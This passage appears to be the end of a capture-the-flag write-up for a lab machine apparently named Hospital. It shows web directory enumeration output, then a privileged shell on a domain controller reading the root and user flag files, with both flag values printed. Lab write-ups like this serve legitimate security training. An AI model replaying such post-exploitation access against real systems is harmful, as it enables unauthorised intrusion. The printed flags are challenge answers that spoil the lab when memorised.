[13:38:07] 404 -  300B  - /shell.sh                                         
[13:38:08] 404 -  300B  - /showcode.asp                                     
[13:38:08] 404 -  300B  - /shtml.exe                                        
[13:38:08] 404 -  300B  - /signin.cg
```

And get all the flags:

```
DC$@DC:C:\Users\Administrator\Desktop# dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\Administrator\Desktop

10/26/2023  11:29 PM    <DIR>          .
10/26/2023  11:29 PM    <DIR>          ..
11/21/2023  08:43 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,022,501,376 bytes free

DC$@DC:C:\Users\Administrator\Desktop# type root.txt
8e89db4237f1ff6c356ab4698aca935c
```

And the user flag:

```
PS C:\Users\drbrown.HOSPITAL> ls Desktop


    Directory: C:\Users\drbrown.HOSPITAL\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---       11/21/2023   8:43 AM             34 user.txt                                                              


PS C:\Users\drbrown.HOSPITAL> cat Desktop/user.txt
94f6165459f491ada5eaabbd8004f356
PS C:\Users\drbrown.HOSPITAL>
```